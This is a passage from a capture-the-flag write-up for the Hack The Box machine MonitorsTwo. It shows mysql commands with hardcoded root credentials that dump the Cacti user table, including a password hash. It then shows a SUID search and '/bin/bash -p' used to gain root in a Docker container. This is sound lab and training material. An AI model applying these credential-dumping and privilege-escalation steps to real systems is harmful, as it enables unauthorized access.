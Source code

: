 So what we got from that is there is a mysql service running locally and what got my interest is this line:
```shell
mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
```

We can get all the (`user_auth`) database dumped by modifying the command to display everything:
```shell
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

This user in particular was interesting:
```
id	username		password	                                          realm	 full_name	     email_address
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb
```

Moving to priv esc.


## Privilege Escalation
But before cracking the hash to get the local user lets get root on the docker container it might be useful

### www-data to root (docker container)
<b>
note: not sure why but the priv esc for the docker container is different everytime
but both are easy so i will cover them both.
</b>

First command to run is to find if there is any binaries with the SUID bit set:
```shell
find / -perm -4000 -ls 2>/dev/null
```

If you got a reverse shell and it says `bash-5.1$` you will find `/bin/bash` & `/sbin/capsh`
which can get u root but if you got `www-data@50bca5e748b0` you can only get root via `/sbin/capsh`

```
    42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
    42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
    42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
    42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
    42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
     5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
    41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
    41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
    41766   1208 -rwsr-xr-x   1 root     root      1234376 Mar 27  2022 /bin/bash
    41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su
```

Getting root using `/bin/bash`:
```shell
bash-5.1$ /bin/bash -p
whoami
root
```
